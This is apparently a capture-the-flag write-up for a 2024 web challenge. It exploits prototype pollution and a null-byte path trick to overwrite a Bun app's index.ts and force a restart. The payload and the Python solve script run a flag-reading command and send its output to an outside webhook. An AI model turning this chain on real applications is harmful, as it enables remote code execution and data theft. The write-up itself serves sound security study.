 ```yaml
---
created: 2024-07-07T02:38
updated: 2024-07-07T21:46
title: Prisoner Processor
solves: 17
points: 325
description: Hijacking the main application
---
```


## Analysis

```ts [index.ts]
const getSignedData = (data: any): any => {
  const signedParams: any = {};
  for (const param in data) {
    if (param.startsWith(SIGNED_PREFIX)) {
      const keyName = param.slice(SIGNED_PREFIX.length);
      signedParams[keyName] = data[param];
    }
  }
  return signedParams;
};
```

- This is vulnerable to prototype pollution.
- Only parameters starting with `signed.` are checked for signature.

```ts
const outputPrefix = z.string().parse(signedData.outputPrefix ?? "prisoner");
const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
```

- `outputPrefix` is not defined anywhere, it is our target for pollution.

```ts
const json = JSON.parse(readFileSync(fullPath).toString());
prisoners.push({
  data: json,
  signature: getSignature(getSignedData(json))
});
```

- We can use the examples to build our payload upon.

```sh
#!/bin/bash

cd /app;
# Loop in case the app crashes for some reason ¯\_(ツ)_/¯
while :; do
    for i in $(seq 1 5); do
        bun run start;
        sleep 1;
    done
    # Okay for some reason something really goofed up...
    # Restoring from backup
    cp -r /home/bun/backup/app/* /app;
done
```

- This is inviting a crush.
## Attack

### Custom File Name

By polluting `outputPrefix` we can change the output file.

```python
d['data']['signed.__proto__'] = {
    "outputPrefix": "hewwo\u0000"
}
# {"msg":"hewwo\u0000-5595316e6c23eddd.yaml"}
```

It worked, use null terminator to end the file path prematurely to get rid of the suffix.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720335471/2024/07/a83e996f9b627e9eb808b892a746556f.png)

### Overwrite index.ts

```ts
const BANNED_STRINGS = [
  "app", "src", ".ts", "node", "package", "bun", "home", "etc", "usr", "opt", "tmp", "index", ".sh"
];
```

Everything is great but how do we escape the blacklist?

> My teammate @spipm, was the one who came up with the exact execution of the bypass..
> I got stuck playing with path traversal.

```python
d['data']['signed.__proto__'] = {
    "outputPrefix": "../../proc/9/fd/3\u0000"
}
```

You can find `/proc` targets via the following command.

```sh
$ find /proc -type l -ls | grep index.ts
find: '/proc/tty/driver': Permission denied
   5107188      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/9/fd/3 -> /app/src/index.ts
   5090100      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/18/fd/3 -> /app/src/index.ts
   5090164      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/19/fd/3 -> /app/src/index.ts
   5090228      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/20/fd/3 -> /app/src/index.ts
   5090292      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/21/fd/3 -> /app/src/index.ts
   5106740      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/22/fd/3 -> /app/src/index.ts
   5106804      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/23/fd/3 -> /app/src/index.ts
   5106868      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/24/fd/3 -> /app/src/index.ts
   5106932      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/26/fd/3 -> /app/src/index.ts
   5106996      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/28/fd/3 -> /app/src/index.ts
   5107060      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/30/fd/3 -> /app/src/index.ts
   5107124      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/31/fd/3 -> /app/src/index.ts
   5106453      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/fd/3 -> /app/src/index.ts
find: '/proc/91/task/91/fd/5': No such file or directory
find: '/proc/91/fd/6': No such file or directory
```

### Payload

```python
{
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}
```

- We replace `index.ts` with our generated yml file.
- For our yml to run as js, we use block comments to comment out everything in-between and the last quote.
- Send the flag to our webhook.
- Crash the script so it will be restarted by `start.sh`.

## Solve Script

```python
import requests
s = requests.Session()
target = "https://web-prisoner-processor-3bdc15af869668aa.2024.ductf.dev"
# target = "http://localhost:1337"
d = s.get(f"{target}/examples")
sign = d.json()['examples'][0]['signature']

d = {'data': {
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}, 'signature': sign}

r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
d['data']['signed.__proto__']['outputPrefix'] = "../../../ap\\p/sr\\c/owo-crusher-owo\u0000"
r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
# {"msg":"../../proc/9/fd/3\u0000-f8af8a2374745bb5.yaml"}
# {"msg":"../../../ap\\p/sr\\c/owo-crusher-owo\u0000-afead8be95834c3e.yaml"}

# DUCTF{bUnBuNbUNbVN_hOn0_tH15_aPp_i5_d0n3!!!one1!!!!}
```

Again, thanks to my teammate @spipm.
The above solve script is heavily inspired by his.
The halting payload was by my own findings though, (you can probably guess why).
